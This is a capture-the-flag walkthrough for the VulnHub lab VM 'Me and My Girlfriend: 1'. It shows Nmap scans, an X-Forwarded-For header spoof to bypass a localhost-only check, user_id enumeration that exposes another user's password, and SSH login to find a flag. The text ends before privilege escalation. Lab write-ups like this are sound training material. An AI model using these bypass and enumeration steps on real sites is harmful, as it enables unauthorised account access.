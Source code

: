 # Me and My Girlfriend: 1
* URL: https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/
* Date release: 13 Dec 2019
* Author: [bibo318]
* Series: [Me and My Girlfriend](https://www.vulnhub.com/series/me-and-my-girlfriend,267/)

This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "Ceban Corp", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for your help to get what Alice is hiding and get full access to the company!

* Difficulty Level: Beginner
* Notes: there are 2 flag files
* Learning: Web Application | Simple Privilege Escalation

# Footprinting
We need more information about the target by
starting with find out the ip address of the target by using Nmap

```console
nmap -F [ip address/mask]
```

The figure below shows the results:
<p align="center">
<img src="/meAndMyGf1/pic/target.png">
</p>

at this point, we can now use the web browser to access to target's web page. Follow by ***inspect element***. the result:

```html
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!<!-- Maybe you can search how to use x-forwarded-for -->
```

As you can see, the creator of this CTF gave use a hint that we should use **x-forwarded-for** get the first flag

to find **more** information about the target

```console
nmap -A -sV -O [ip address] > meAndMyGf.txt
```
Where:
* -sV = Version scanning
* -A = Version scanning
* -O = OS detection

We also put the result from nmap in a file. This will help us to save some time since we do not need to run this command to get target's info again.

here is the result from runing the command above:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-31 13:24 EST
Nmap scan report for [ip address]
Host is up (0.00056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)
|   256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)
|_  256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:0D:53:C5 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms [ip address]

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.42 seconds
```

The last line of the nmap output shows that it took 20 sec to finish the scanning. WOW is a lot, good that we save the output in a file. I think I should increasse the ram of my kali vm.

# Action
Fire up Burp Suit and get ready for some web application hacking! The hint was use **x-forwarded-for** to access to webserver.

according to [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) and [this](https://www.keycdn.com/support/x-forwarded-for)
X-Forwarded-For or XFF header is a de-facto standard header for identifying the **originating IP address**  of a (src ip) client connecting to a web server (our target) through an HTTP proxy or a load balancer.Our goal is spoofing src ip address so the web server think we try to access from local. 

At this point you can now guess, WE have to combine XFF and localhost.
Now try to visite the website when the brup suit is on and try to intercept the get request. Then add
```
X-Forwarded-For: 127.0.0.1
```
The request should look something like this
```
GET /?page=index HTTP/1.1
Host: [ip address]
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=03gbe8fmpkvdr31vaf2io6co62
Connection: close
Upgrade-Insecure-Requests: 1
```
When the webserver get our request, it will assume that the request was send from 127.0.0.1 (localhost). It then response with a legit webpage that was blocked before.
WOOP WOOP! we are in !!!
<p align="center">
<img src="/meAndMyGf1/pic/home.png">
</p>

NOW time to play around and learn how the application works. I poked around, tried to check every link I could. The most anoying part is, I needed to put x-fowared-for in each reaquest (```X-Forwarded-For: 127.0.0.1```). I then created a accout call, user: ```test``` pass ```1234```.
```
POST /misc/process.php?act=login HTTP/1.1
Host: 192.168.58.129
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.58.129/index.php?page=login
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Connection: close
Cookie: PHPSESSID=trb9hv9p2mckesqb3n40i1ur75
Upgrade-Insecure-Requests: 1

username=test&password=1234&submit=
```
The request above is the request I sent to the webserver when I tried to login to the website with created credential. As you can see in the body, ```username=test&password=1234&submit=``` contain my credential. The website then redirected to another page after the authentication. The figure below shows the http reqest that redirect me to dashboard page.

```
GET /index.php?page=dashboard&user_id=13 HTTP/1.1
Host: 192.168.58.129
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.58.129/index.php?page=login
Connection: close
Cookie: PHPSESSID=trb9hv9p2mckesqb3n40i1ur75
Upgrade-Insecure-Requests: 1
```
By studying the first line of the previous reqest ```GET /index.php?page=dashboard&user_id=13 HTTP/1.1``` I learn that, the request try to get information from the dashboard page and also pass ```user_id=13```. I assume that user_id = 13 is me, which is the credential that I created. 

There is only 3 link on the narv bar, Dashboard, Profile and Logout. I then try to check the profile, the picture below shows the profile page.

<p align="center">
<img src="/meAndMyGf1/pic/profile.png">
</p>

As you can see, It seem like we can change the user's credential on this page. The problem is the CHANGE button is disable, we can't click it. I then use the **Inspect Elements** to examing the webpage, I might be able to manipulate the HTML and make the button click able again.
```<button disabled="disabled">Change</button>```, here is the Change button. To disable it, remove ```disabled="disabled"``` from it which give me ```<button>Change</button>```. The picture below shows the result.

<p align="center">
<img src="/meAndMyGf1/pic/button.png">
</p>

I changed Name, Username and password then press the change button. **IT DIDN'T WORK**. The credential still stay the same as before. **GOD DAMN IT!!**. I then check the HTML on the profile page again. **OMG HOW DID I MISSED IT?**

```html
<form action="#" method="POST">
<label for="name">Name</label>
<input type="text" name="name" id="name" value="test"><br>
<label for="username">Username</label>
<input type="text" name="username" id="username" value="test"><br>
<label for="password">Password</label>
<input type="password" name="password" id="password" value="1234"><br>
<button disabled="disabled">Change</button>
```

Oh, look what I missed, stupid me. The password is already in ```value="1234"```. So now I know how to get the password. The last step is try to get to Alic profile and get her password!! As I mentioned before, ```user_id=13``` seem like my credential since ```user_id=13``` popup every time I click something. So let try to change to ```user_id=X``` where X = INT and try to find ALICE's credential.

FINALLY!! I found her ! my target, ALICE (```user_id=5```). 
<p align="center">
<img src="/meAndMyGf1/pic/alice.png">
</p>

Remember when I did nmap to scan the server? (scroll up if you dont remenber). Note that the **SSH** is open. I then user Alice's credential to login to the company machine by using **SSH** -> run  ```ssh alice@ipAddr``` . **MASHALLAH ! I'M IN**


To list all file in the directory run ```ls``` BUT there is nothing here. I then use ```ls -la``` or ```ls -a``` to list all file including the hidden file. OMG I FOUND IT, I FOUND HER SECRET!! Let me call BOB and keep him updated. The picture below shows the result.


To move inside the ***.my_secret*** directory run ```cd .my_secret``` follow by ```ls``` again to list all file. **I FOUND THE FIRST FLAG!!!** inside ***.my_secret*** there is two files, ***flag1.txt*** ***my_notes.txt*** which contain some bad stuff about bob... I should let him know about this. To view the file's content, run ```cat [file's name]```. The figure below shows files content.
